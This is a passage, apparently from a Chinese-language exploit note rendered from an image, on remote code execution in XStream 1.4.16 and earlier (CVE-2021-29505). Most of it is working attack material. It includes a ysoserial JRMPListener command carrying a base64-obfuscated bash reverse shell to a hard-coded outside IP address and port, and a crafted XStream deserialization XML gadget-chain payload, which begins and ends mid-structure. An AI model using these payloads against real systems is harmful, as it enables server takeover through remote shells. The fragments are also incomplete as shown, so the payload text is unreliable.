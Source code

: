 ```xml
</value>

</javax.naming.ldap.Rdn_-RdnEntry>

</sorted-set>
```

2、远程代码执行 （CVE-2021-29505）

XStream <= 1.4.16

-生成反弹Shell的反序列化JNDI注入

```
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1089 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny45NC4yMzYuMTE3Lzk5MDAgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

-构造反序列化JNDI注入Payload提交

执行一次需要换端口
```xml
<java.util.PriorityQueue serialization='custom'>

<unserializable-parents/>

<java.util.PriorityQueue>

<default>

<size>2</size>

</default>

<int>3</int>

<javax.naming.ldap.Rdn_-RdnEntry>

<type>12345</type>

<value class='com.sun.org.apache.xpath.internal.objects.XString'>

<m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>

</value>

</javax.naming.ldap.Rdn_-RdnEntry>

<javax.naming.ldap.Rdn_-RdnEntry>

<type>12345</type>

<value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>

<message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>

<parsedMessage>true</parsedMessage>

<soapVersion>SOAP_11</soapVersion>

<bodyParts/>

<sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>

<attachmentsInitialized>false</attachmentsInitialized>

```